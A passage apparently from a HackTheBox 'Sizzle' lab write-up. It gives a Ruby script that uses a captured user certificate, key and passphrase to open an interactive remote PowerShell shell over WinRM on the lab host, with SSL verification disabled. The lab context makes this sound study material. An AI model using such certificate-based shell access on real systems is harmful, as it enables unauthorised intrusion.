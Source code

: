 ![image-20200914231013194](sizzle.assets/image-20200914231013194.png)



- we will get a signed certificate 
- we will use a custom evil-winrm to go with our ssl [link](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'https://htb.local:5986/wsman',
  transport: :ssl,
        client_cert: 'amanda.cer',
        client_key: 'amanda.key',
        key_pass:       'manish',
        :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```
